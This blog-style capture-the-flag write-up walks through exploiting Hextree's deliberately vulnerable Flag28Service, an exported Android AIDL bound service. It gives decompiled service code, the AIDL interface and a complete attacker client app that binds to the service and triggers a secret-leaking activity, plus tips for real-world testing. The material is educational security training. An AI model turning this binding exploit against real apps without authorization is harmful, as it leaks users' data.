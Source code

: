 ```yaml
---
layout: post
title: Flag28Service AIDL Binding Walkthrough (Hextree Lab)
categories: android
description: A step-by-step guide to reverse engineering and exploiting an exported Android AIDL-based bound Service from another app.
summary: A step-by-step guide to reverse engineering and exploiting an exported Android AIDL-based bound Service from another app.
date: 2025-06-15  
tags:
- android  
- aidl  
- binder  
- reverse engineering 
- inter-process communication 
- hextree  
- penetration testing  
- android security  
image: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSXmYjvkPoTPJk7lEIJpt19Z24OkecfMezJNg&s 
read_time: 3 minute read
pin: false
comments: true
toc: true
---
```



## 📌 Lab Objective

The goal of this Hextree challenge is to interact with an **exported bound Android service** (`Flag28Service`) from a different app (our attacking app) by leveraging **AIDL (Android Interface Definition Language)**. Once the AIDL interface is properly bound and invoked, a flag activity is launched containing a secret UUID.

---

## 🔍 Reconnaissance

Inspecting the AndroidManifest of the target app, we find this service:

```xml
<service
    android:name="io.hextree.attacksurface.services.Flag28Service"
    android:enabled="true"
    android:exported="true"/>
````

✅ The `android:exported="true"` line means any app on the device can bind to this service — if it knows how.

---

## 🧠 Understanding the Service Code

Here’s what `Flag28Service.java` does:

```java
public class Flag28Service extends Service {
    public static String secret = UUID.randomUUID().toString();
    private final IFlag28Interface.Stub binder = new IFlag28Interface.Stub() {
        @Override
        public boolean openFlag() throws RemoteException {
            return success();
        }

        public boolean success() {
            Intent intent = new Intent();
            intent.setClass(Flag28Service.this, Flag28Activity.class);
            intent.putExtra("secret", Flag28Service.secret);
            intent.addFlags(268468224);
            intent.putExtra("hideIntent", true);
            Flag28Service.this.startActivity(intent);
            return true;
        }
    };

    @Override
    public IBinder onBind(Intent intent) {
        Log.i("Flag28Service", Utils.dumpIntent(this, intent));
        return this.binder;
    }
}
```

* When `openFlag()` is called, it launches `Flag28Activity` with the `secret` in the intent.
* That function is exposed via **AIDL**.

---

## 🔧 Step-by-Step Exploit via AIDL

### 1. 🔎 Get the AIDL Definition

From decompiled code, we extract the AIDL interface:

```java
package io.hextree.attacksurface.services;

interface IFlag28Interface {
    boolean openFlag();
}
```

Create this file in your client app:

```
app/src/main/aidl/io/hextree/attacksurface/services/IFlag28Interface.aidl
```

> 📚 [AIDL Documentation](https://developer.android.com/guide/components/aidl)

Then rebuild the project. This will generate a stub interface your app can use to call the service.

### 2. 🏗️ Create a Client App to Bind to the Service

No special permission is needed to bind to exported services.

#### `HextreeActivity.java`

```java
public class HextreeActivity extends AppCompatActivity {
    boolean isBound = false;
    IFlag28Interface remoteservice;

    ServiceConnection connection = new ServiceConnection() {
        public void onServiceConnected(ComponentName name, IBinder service) {
            remoteservice = IFlag28Interface.Stub.asInterface(service);
            isBound = true;
            sendMessageToService();
        }

        public void onServiceDisconnected(ComponentName name) {
            isBound = false;
            remoteservice = null;
        }
    };

    public void sendMessageToService() {
        if (!isBound) return;
        try {
            remoteservice.openFlag();
        } catch (RemoteException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button attackButton = findViewById(R.id.attack);
        attackButton.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag28Service");
            bindService(intent, connection, Context.BIND_AUTO_CREATE);
        });
    }

    @Override
    protected void onDestroy() {
        if (isBound) {
            unbindService(connection);
            isBound = false;
        }
        super.onDestroy();
    }
}
```

#### Layout: `activity_main.xml`

```xml
<Button
    android:id="@+id/attack"
    android:layout_width="wrap_content"
    android:layout_height="wrap_content"
    android:text="Launch Flag Service" />
```

---

## 🧪 Testing the Attack

1. Install the vulnerable target app.
2. Install and run your client app.
3. Tap the button → it binds to the service.
4. Calls `openFlag()` → starts `Flag28Activity` with the flag.

🎉 You now have access to the secret UUID stored statically in the service.

---

## 🔐 Why This Works

* **AIDL** enables IPC in Android. If a service is exported and implements an AIDL interface, **any app can use it** — as long as it has the correct `.aidl` definition.
* The Binder framework ensures capability-based access, so possession of the IBinder gives you the power to call the methods.

---

## 📚 Resources

* [Android AIDL Guide](https://developer.android.com/guide/components/aidl)
* [Binder Internals (Google)](https://android.googlesource.com/platform/frameworks/native/+/refs/heads/main/cmds/servicemanager/README.md)
* [Binder IPC Deep Dive](https://dev.to/paulshen/android-ipc-binder-introduction-1e4c)
* Hextree CTF Labs – Android IPC + Reverse Engineering Challenges

---

## 🧠 Notes for Real-World Testing

* Always check for `exported=true` in the target app's `AndroidManifest.xml`.
* Decompile APKs using tools like jadx or apktool to extract `.aidl` files.
* Verify if the service performs security checks (e.g., caller package, signature).

---

## ✅ Summary

This lab demonstrates how exported AIDL-based services can become attack surfaces. By reverse engineering the `.aidl`, replicating it, and binding from your own app, you can trigger privileged flows like opening hidden activities or leaking secrets — all by using Binder IPC correctly.

> The power of Android IPC becomes a vulnerability when misconfigured.

---
thanks for reading.
If you enjoyed this write-up, feel free to follow me on [Twitter](https://twitter.com/00xmora)